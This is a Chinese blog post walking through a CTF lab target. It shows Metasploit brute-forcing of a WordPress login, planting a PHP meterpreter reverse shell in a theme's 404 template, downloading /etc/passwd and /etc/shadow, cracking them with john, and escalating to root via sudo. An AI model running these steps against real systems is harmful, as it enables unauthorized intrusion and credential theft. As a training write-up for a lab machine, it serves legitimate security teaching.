<!--yml
category: 未分类
date: 2022-04-26 14:30:35
-->

# ctf训练 web安全暴力破解_爱吃香菜的哈哈的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_43799246/article/details/110562957](https://blog.csdn.net/qq_43799246/article/details/110562957)

## ctf训练 web安全暴力破解

**暴力破解漏洞介绍**

穷举法的基本思想是根据题目的部分条件确定答案的大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。若某个情况验证符合题目的全部条件，则为本问题的一个解;若全部情况验证后都不符合题目的全部条件，则本题无解。穷举法也称为枚举法。

Web安全中的暴力破解也是利用尝试所有的可能性最终获取正确的结果。

**实验环境**

一台kail攻击机 和 靶机
靶机镜像：[https://pan.baidu.com/s/1jitlWbjJHfyzfvPEBVDhUw](https://pan.baidu.com/s/1jitlWbjJHfyzfvPEBVDhUw)
提取码：x8cc

安装打开靶机（使用Oracle VM VirtualBox打开）：
（注意：靶机用桥接模式则攻击机也用桥接模式，注意检查！！！！）

接下来发现没法登陆，也没有办法获取ip地址
所以我们在kail下
进入控制台

使用netdiscover命令 netdiscover -r ip/子网掩码 命令来探测靶机，靶机ip为192.168.43.46
本机ip为192.168.43.96


**信息探测**

扫描主机服务信息以及服务版本
– nmap -sV靶场IP地址


快速扫描主机全部信息
– nmap -T4 -A -v靶场IP地址



探测敏感信息
– nikto -host http://靶场lP地址:端口

**深入挖掘**

分析nmap .nikto扫描结果，并对结果进行分析，挖掘可以利用的信息;

在这里发现可疑目录`/secret/`


使用浏览器打开http:/ /ip:port/敏感页面，查看敏感信息，找到可利用的位置;

这里http默认端口号为80，所以端口号可以省略不加
发现一个login，于是点击
发现了一个登录界面，所以我们就想着找用户名和密码

**暴力破解**

首先使用wpscan对用户名进行枚举


使用上面得到的信息，查看用户名

得到用户名为admin

接下来启动Metasploit -> msfconsole

选择模块
msf > use auxiliary/scanner/http/wordpress_login_enum
show options 查看参数

设置我们已知的用户名

msf auxiliary(wordpress_login_enum) > set username admin


设置密码文件

msf auxiliary(wordpress_login_enum) > set pass_file /usr/share/wordlists/dirb/common.txt


设置目标url
msf auxiliary(wordpress_login_enum) > set targeturi secret/
设置目标ip

msf auxiliary(wordpress_login_enum) > set rhosts 靶机ip

运行，开始破解

msf auxiliary(wordpress_login_enum) > run

破解成功，得到密码也是admin

使用破解好的密码登录系统

进入后台

**上传webshell获取控制权**

制作webshell
使用msfvenom制作shell代码，将代码复制下来


wordpress后台寻找上传点
appearance的editor，然后再点击右侧的404 Template，将代码替换为shell代码



```
退出当前模块
back

使用监听模块
use exploit/multi/handler

设置为php模式
set payload php/meterpreter/reverse_tcp

查看参数
show options

设置kali的ip
set LHOST 本机ip

开始监听
run 
```

执行shell，获取反弹shell。

http: //靶场IP/secret/wp-content /themes/twentysevernteen /404.php


查看系统信息 sysinfo

查看用户权限id


**root权限**

– Metasploit中利用返回shell 下载
download /etc/passwd
download /etc/shaclow


–将文件转换为join可以识别的文件格式

unshadow passwd shadow > cracked

– 使用john破解密码
john cracked
得到用户名marlinspike和密码marlinspike
优化终端
python -c “import pty;pty.spawn(’/bin/bash’)”


```
切换到marlinspike用户
su - marlinspike

查看权限
sudo -l

提权
sudo bash 
```


**获取Flag**

一般情况下，靶场机器的flag值是存放在服务器的根目录下，/root/目录。

cd /root/
ls
cat flag


这个靶机下没有flag值，结束！！！

**`总结`**

提权时可以抓取/etc/passwd和/etc/shadow，之后使用join来破解对应的密码，然后使用对应的用户名密码提升root权限;

对于wp的渗透中，启动对应的主题，然后在404页面上传shell ;